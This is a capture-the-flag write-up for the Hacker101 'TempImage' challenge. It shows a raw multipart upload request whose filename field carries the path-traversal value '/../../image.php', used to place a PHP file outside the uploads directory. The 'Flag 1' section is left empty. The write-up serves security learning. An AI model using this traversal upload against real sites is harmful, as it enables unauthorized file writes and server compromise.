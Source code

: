 # Hacker 101 CTF TempImage

---

#### Flag 0

-- <b>Hints</b> --

```html
<ul>
  <li>File uploads can be hard to pin down</li>
</ul>
```

For this first flag I did quite a bit of investigating with the trusty burp suite.
I tried the typical vectors of uploading phtml but nothing but errors asking for a png..

I found that when uploading an image however, there is a second Content-Disposition header... This could be interesting, so I tried to upload some php to the vector but still nothing.

At this point I went back to the redirect and saw /files/&lt;somehash-image-uploaded&gt; and the same within the header. So instead of uploading to the /files directory, what about getting to the /index with some directory traversal.

```http
POST /doUpload.php HTTP/2
Host: <target>
Content-Length: 254181
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: <target>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysNSOkcevOPFbYBSC
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://2b3b4a8b0990d1f860b7f8a33cc32ce9.ctf.hacker101.com/upload.php
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


------WebKitFormBoundarysNSOkcevOPFbYBSC
Content-Disposition: form-data; name="file"; filename="image.png"
Content-Type: image/png

PNG
png data here

------WebKitFormBoundarysNSOkcevOPFbYBSC
Content-Disposition: form-data; name="filename"
/../../image.php

------WebKitFormBoundarysNSOkcevOPFbYBSC--
```

this returned a flag in the response

---

#### Flag 1

---
